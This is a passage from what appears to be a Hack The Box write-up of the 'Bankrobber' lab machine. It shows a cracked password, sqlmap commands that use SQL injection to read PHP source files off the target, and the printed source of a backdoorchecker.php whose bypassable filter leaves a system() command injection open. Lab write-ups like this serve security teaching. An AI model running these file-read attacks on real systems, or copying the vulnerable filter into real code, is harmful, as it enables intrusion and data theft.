 A quick search online shows the password for this hash is: `Welkom1!`

![](/assets/images/htb-writeup-bankrobber/hash1.png)

Nice but that doesn't really help me for now. Next I'll get the source code of various PHP files in the web app. This is a Windows box running Apache and PHP so I'm probably looking at a XAMPP stack. A quick search online shows the default base directory for XAMPP is: `C:/xampp/htdocs`

I can use the `--file-read` flag in sqlmap to read files:

`sqlmap -r search.req --file-read '/xampp/htdocs/index.php'`
`sqlmap -r search.req --file-read '/xampp/htdocs/admin/search.php'`
`sqlmap -r search.req --file-read '/xampp/htdocs/admin/backdoorchecker.php'`

The `backdoorchecker.php` is interesting because it contains an injection vulnerability in the system() function. There's some filtering done on the provided `cmd` parameter: it has to start with `dir` and can't contain `$(` or `&`. But that's not enough to prevent injecting commands. Source code shown below:

```php
<?php
include('../link.php');
include('auth.php');

$username = base64_decode(urldecode($_COOKIE['username']));
$password = base64_decode(urldecode($_COOKIE['password']));
$bad 	  = array('$(','&');
$good 	  = "ls";

if(strtolower(substr(PHP_OS,0,3)) == "win"){
    $good = "dir";
}

if($username == "admin" && $password == "Hopelessromantic"){
    if(isset($_POST['cmd'])){
        // FILTER ESCAPE CHARS
        foreach($bad as $char){
            if(strpos($_POST['cmd'],$char) !== false){
                die("You're not allowed to do that.");
            }
        }
        // CHECK IF THE FIRST 2 CHARS ARE LS
        if(substr($_POST['cmd'], 0,strlen($good)) != $good){
            die("It's only allowed to use the $good command");
        }

        if($_SERVER['REMOTE_ADDR'] == "::1"){
            system($_POST['cmd']);
        } else{
            echo "It's only allowed to access this function from localhost (::1).<br> This is due to the recent hack attempts on our server.";
        }
    }
} else{
    echo "You are not allowed to use this function!";
}
?>
```
